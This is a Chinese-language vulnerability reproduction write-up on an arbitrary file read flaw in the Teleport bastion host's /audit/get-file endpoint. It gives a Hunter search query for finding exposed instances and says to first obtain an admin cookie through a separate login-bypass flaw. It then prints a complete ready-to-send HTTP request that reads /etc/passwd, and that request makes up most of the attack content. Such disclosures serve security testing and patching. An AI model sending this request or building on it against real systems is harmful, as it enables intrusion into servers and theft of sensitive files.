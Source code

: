 # Teleport堡垒机 get-file 后台任意文件读取漏洞

# 一、漏洞简介
Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

# 二、影响版本
+ Teleport堡垒机<= 20220817  


# 三、资产测绘
+ hunter`app.name="Teleport 堡垒机系统"`
+ 特征

![1700224400227-6b4b586e-6399-4e83-8cb6-7af26e9b2218.png](./img/wf_kz4gZxf1izLnh/1700224400227-6b4b586e-6399-4e83-8cb6-7af26e9b2218-967661.png)

# 四、漏洞复现
1. 通过`Teleport堡垒机 do-login 任意用户登录漏洞`登录后台，获取管理员cookie

![1700225092406-56c1fcf6-9f0d-49f2-83f2-7d97ab0f1928.png](./img/wf_kz4gZxf1izLnh/1700225092406-56c1fcf6-9f0d-49f2-83f2-7d97ab0f1928-923223.png)

2. 通过上一步获取到的cookie读取服务器上的文件

```plain
GET /audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12
Upgrade-Insecure-Requests: 1
```

![1700225157574-3c40beac-b489-43ea-b047-ac449a073872.png](./img/wf_kz4gZxf1izLnh/1700225157574-3c40beac-b489-43ea-b047-ac449a073872-489991.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wg3n45g9dgsgstm6>